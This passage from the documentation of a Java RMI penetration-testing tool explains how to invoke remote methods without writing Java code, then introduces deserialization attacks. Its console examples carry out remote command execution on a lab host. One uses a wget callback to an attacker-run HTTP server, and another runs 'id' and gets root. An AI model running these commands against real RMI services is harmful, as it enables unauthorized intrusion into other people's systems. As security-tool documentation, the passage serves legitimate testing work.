 
#### Calling Remote Methods

Using *rmg's* ``call`` action, you can invoke remote methods without writing any *Java code*. In the previous example, we identified
that the method ``String execute(String dummy)`` exists on the remote server. This method sounds promising and you may want to invoke
it using a regular *Java RMI call*. This can be done by using the following command:

```console
[qtc@kali ~]$ rmg 172.17.0.2 9010 call '"wget 172.17.0.1:8000/worked"' --signature 'String execute(String dummy)' --bound-name plain-server
[+] RMI object tries to connect to different remote host: iinsecure.dev.
[+] 	Redirecting the connection back to 172.17.0.2... 
[+] 	This is done for all further requests. This message is not shown again. 

[qtc@kali www]$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
172.17.0.2 - - [25/Mar/2021 07:14:22] "GET /worked HTTP/1.1" 200 -
```

Notice that calling remote methods does not create any output by default. To process outputs generated by the ``call`` action, you need
to use *rmg's* plugin system and register a ``ResponseHandler``. The [plugin folder](./plugins) of this repository contains a *GenericPrint*
plugin, that is suitable for most situations. To learn more about *rmg's* plugin system, please refer to the [detailed documentation folder](./docs/rmg/plugin-system.md).

```console
[qtc@kali remote-method-guesser]$ bash plugins/build.sh target/rmg-3.2.0-jar-with-dependencies.jar plugins/GenericPrint.java Plugin.jar
[qtc@kali remote-method-guesser]$ rmg 172.17.0.2 9010 call '"id"' --signature 'String execute(String dummy)' --bound-name plain-server --plugin Plugin.jar
[+] RMI object tries to connect to different remote host: iinsecure.dev.
[+] 	Redirecting the connection back to 172.17.0.2... 
[+] 	This is done for all further requests. This message is not shown again. 
uid=0(root) gid=0(root) groups=0(root)
```

During the ``call`` action, the argument string is evaluated as a *Java expression* of the following form: ``new Object[]{ <ARG> }``. Therefore,
you need to make sure that your argument string fits into that pattern and that you use the *Object* representation of primitive types
(e.g. new Integer(5) instead of 5). For more complex use cases, you can also define a custom ``ArgumentProvider`` by using *rmg's* plugin system.


#### Method Based Deserialization Attacks

Remote methods that do not only use primitive types within their arguments are often vulnerable to *deserialization attacks*.
This [blog post](https://mogwailabs.de/en/blog/2019/03/attacking-java-rmi-services-after-jep-290/) by [Hans-Martin Münch](https://twitter.com/h0ng10)
explains this issue in more detail. *remote-method-guesser* can be used to easily verify such vulnerabilities. As an example,
we can use the ``String login(java.util.HashMap dummy1)`` method that was guessed in one of the previous examples.
